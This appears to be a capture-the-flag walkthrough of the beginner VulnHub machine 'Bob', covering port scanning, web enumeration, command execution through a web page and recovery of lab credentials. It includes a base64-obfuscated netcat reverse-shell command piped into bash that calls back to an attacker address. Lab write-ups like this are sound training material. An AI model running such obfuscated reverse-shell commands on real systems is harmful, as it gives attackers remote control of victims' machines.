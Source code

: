 ```yaml
---
categories: [VulnHub]
tags: [PrivEsc]
---
```

# Bob


## **Description ⤵️**


> 💡 Difficulty: Beginner/Intermediate → [Bob](https://vulnhub.com/entry/bob-101,226/)<br>
<br>
    Bob is my first CTF VM that I have ever made so be easy on me if it's not perfect.
<br><br>
    The Milburg Highschool Server has just been attacked, the IT staff have taken down their windows server and are now setting up a linux server running Debian. Could there a few weak points in the new unfinished server?
<br>
    ---<br>
<br>
    Your Goal is to get the flag in /
<br>
    Hints: Remember to look for hidden info/files
<br>
    ## Changelog v1.0 ~ 2018-03-07 v1.0.1 ~ 2018-03-09
{: .prompt-info }

Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Bob/Untitled.png)

```bash
IP : 10.0.2.18
```

## Port Scan Results ➡️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%201.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%202.png)

```bash
OPEN PORTS >
80     HTTP (Enumeration Further !)
25468  SSH  (Hidding the ssh port from changing it is good stategy !)
```

---

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Bob/Untitled%203.png)

Lets check the robots.txt file →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%204.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%206.png)

lets try to get the output now → `for command : id`

![Untitled](/Vulnhub-Files/img/Bob/Untitled%207.png)

Lets try to generate reverse shell from it →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%208.png)

Now let's try the reverse shell Now →

```bash
command ->
**echo** "bmMgMTAuMC4yLjEwIDQ0NDQgLWUgL2Jpbi9iYXNoCg==" **|** base64 -d **|** **bash**
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%209.png)

Look what  I found →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2010.png)

```bash
jc		:	Qwerty
seb	:	T1tanium_Pa$$word_Hack3rs_Fear_M3
```

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2011.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2012.png)

```bash
elliot  :  theadminisdumb
```

After very much enumeration of directories  I got this folder and The secret part was the `HARPOCRATES`

Harpocrates was the Greek god of silence, secrets, and confidentiality.

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2013.png)

Now for extracting this I used this parapharase →

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2014.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2015.png)

```bash
And I got this credential →
bob	:	b0bcat_
```

Lets see how bob can lead us to root —>

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2016.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2017.png)

![Untitled](/Vulnhub-Files/img/Bob/Untitled%2018.png)
<br>
<br>
<br>
---